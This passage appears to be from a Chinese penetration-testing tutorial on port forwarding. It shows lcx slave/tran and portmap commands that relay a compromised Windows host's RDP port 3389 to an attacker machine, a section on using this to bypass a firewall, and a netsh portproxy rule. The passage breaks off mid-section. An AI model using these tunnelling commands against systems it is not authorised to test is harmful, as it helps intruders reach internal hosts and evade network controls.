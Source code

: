   -z   使用 0 输入 / 输出模式，只在扫描通信端口时使用。

**2****、****lcx**

**2.1** **外网无法访问内网，内网可以访问外网。**

靶机（windows）：lcx.exe -slave rhost rport lhost lport

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9BUIRFFwEgj9SpUxmVcmYLtPbjjyGYqVgqV5icQtSecknecFqeWat1Zg/640?wx_fmt=png)

攻击机：./portmap -m 2 -p1 6666 -p2 5555

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9q8gz2vKWbEQbRpQCsf4EFXzGiaMVVRsYziceWUgBPUgEw17QMT8Ropiaw/640?wx_fmt=png)

成功开启 3389 连接：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9JCSp9nHEibMZLnsoUBJg2Aa1N19ibjlHQCPCJmuuB9gsX5tXUA8Y6oicA/640?wx_fmt=png)

整个 lcx->portmap 的端口转发流程大致如下：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9NtM6MDviaj5YC2x9ZJ1iaDqjmdzsq5ibTJvHzXibKibbpEdchrXvWrxn3eA/640?wx_fmt=png)

**2.2** **转发内网主机端口**

lcx.exe -tran 6666 192.168.1.2 3389

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9SIic6BibItmtibc1S1k4rkQQqrrA0ExB6ibdG9KAbqFqGKr7wlibEIwGw8w/640?wx_fmt=png)

我们使用靶机进行连接：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9iaEYmDgjtmdL06D5YyDI8YEf4A70HWFFSCkLAqsC7lIc6ibWfOVy74gA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9ib77zQswZtIYSYLVYkTMEm1jJmIRYk4Lk3ia946xP0icB4IZdnokdzticg/640?wx_fmt=png)

流程如下：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9pmWzlPmBxpmISgEicP2F5tJxpt9hNstcIa2CADBS0Wfwhj0KanQsdDg/640?wx_fmt=png)

**2.3** **绕过防火墙**

有时候由于防火墙的限制我们无法直接连接靶机的 3389 端口，所以我们可以利用 lcx 把 3389 端口转发到本机的其他端口。

靶机：lcx.exe -tran lport lhost lport

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9lqdhwL4jtT9icueZ0RqqT2CodUPktYkJknLOxB1ojs61hMpoVAvkyicg/640?wx_fmt=png)

使用 kali 直接连接靶机的 52 端口：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9glOiaWLrLDibOXZGUVKtaVoeh40G7hK9xibDnIvEPVh5vWu9pk5zOMdVA/640?wx_fmt=png)

**3****、****netsh**

使用 windows 自带的 netsh 配置规则也可达到和 lcx 一样的效果，但没有工具方便。建立转发规则：

netsh interfaceportproxyaddv4tov4listenport=6666 connect=3389connectaddress=192.168.1.2protocol=tcp

查看转发规则：
